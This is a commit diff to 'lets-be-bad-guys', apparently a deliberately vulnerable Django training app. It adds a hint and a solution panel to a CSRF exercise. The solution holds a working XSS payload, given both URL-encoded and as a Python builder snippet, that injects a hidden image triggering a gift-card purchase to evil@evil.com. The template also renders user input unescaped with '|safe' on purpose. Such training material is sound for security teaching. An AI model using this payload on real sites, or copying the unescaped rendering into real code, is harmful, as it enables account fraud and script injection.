

Before and after one commit to mpirnat/lets-be-bad-guys, a Django app: a page that uses badguys_project/templates/vulnerable/csrf/image.html in a window 1280 px wide. Shown: the part 496-840 px from the top of the page, without its empty margins (108-1156 px from the left). Before the commit the page ends 698 px from the top, so only its background shows below. Run offline with Django 3.2, Linux system fonts and the light colour scheme; some libraries are stand-ins or nearby versions.

Commit message:
Updates to the CSRF exercises

```diff
--- a/badguys_project/static/css/site.css
+++ b/badguys_project/static/css/site.css
@@ -18,7 +18,7 @@
 
 .solution p {
     color: darkblue;
-    margin: 0;
+    margin: 15px 0 0 0;
 }
 
 .hints p {
--- a/badguys_project/templates/vulnerable/csrf/image.html
+++ b/badguys_project/templates/vulnerable/csrf/image.html
@@ -28,10 +28,40 @@ could inject an image link that triggers a giftcard purchase.</p>
     <li>Use a querystring parameter <code>qs</code> on this page to inject the image.</li>
 </ul>
 
+{% if qs %}
+    <div class="hints panel">
+        <p>Helpful hints</p>
+        <ul>
+            <li>Think back to the solution for <a href="/cross-site-scripting/query-params?qs=awesome">XSS via Query Parameters</a> exercise</li>
+        </ul>
+        <a class="tiny button" id="show_solution">show solution</a>
+    </div>
+{% endif %}
+
+<div class="solution panel">
+    <h4>Solution</h4>
+    <p>The link below has the correct URL:</p>
+    <a href="/csrf/image?qs=%20%20%20%20%20%22%3Bvar%20i%3Ddocument.createElement%28%27img%27%29%3B%20%20%20%20%20i.src%3D%27/csrf/gift-card%3Femail%3Devil%40evil.com%26amount%3D100%27%3B%20%20%20%20%20i.setAttribute%28%27display%27%2C%20%27none%27%29%3B%20%20%20%20%20document.body.appendChild%28i%29%3B%22">solution link</a>
+    <p>This querystring was created using interactive Python:</p>
+    <code>
+        import urllib<br>
+        url = '/csrf/gift-card?email=evil@evil.com&amp;amount=100'<br>
+        js = '''";var i=document.createElement('img');''' +\<br>
+        &nbsp;&nbsp;&nbsp;&nbsp;'''i.src=%r;''' +\<br>
+        &nbsp;&nbsp;&nbsp;&nbsp;'''i.setAttribute('display', 'none');''' +\<br>
+        &nbsp;&nbsp;&nbsp;&nbsp;'''document.body.appendChild(i);"'''<br>
+        urllib.quote(js % url)
+    </code>
+    <p>In this example we've combined and XSS exploit with a CSRF exploit. This way the domain name on the
+       link is familiar to the user. It is also possible to embed images on different sites or within email
+       to accomplish the attack.</p>
+</div>
+
 {% endblock %}
 
 
-{% block extra_head %}
+{% block extra_js %}
+{{ block.super }}
 <script src="{{STATIC_URL}}js/vendor/jquery.js"></script>
 <script type="text/javascript">
 var x = "{{qs|safe}}";
@@ -51,7 +81,8 @@ $(function() {
     for (var i in images) {
         var $image = $(images[i]);
         console.log($image);
-        if ($image.attr('src').indexOf('/danger/vulnerable') > -1) {
+        console.log($image.attr('src'));
+        if ($image.attr('src').indexOf('/csrf/gift-card') > -1) {
             injected_src = $image.attr('src');
             break;
         }
@@ -64,13 +95,7 @@ $(function() {
         return; // has not started yet
     }
 
-    var path = injected_src.match(/.*newworld.com:\d*(.*)\?.*/)[1 ];
     var qs = injected_src.match(/.*\?(.*)/)[1 ].split('&');
-
-    if (path != '/danger/vulnerable/csrf-giftcard') {
-        alert('You seem to be using the wrong path to the form');
-        return;
-    }
 
     if (!contains(qs, 'email=evil@evil.com')) {
         alert("Your injected image doesn't have the correct email specified");
```
Also changed, not shown: badguys_project/templates/vulnerable/xss/query.html (+9 -9 lines).
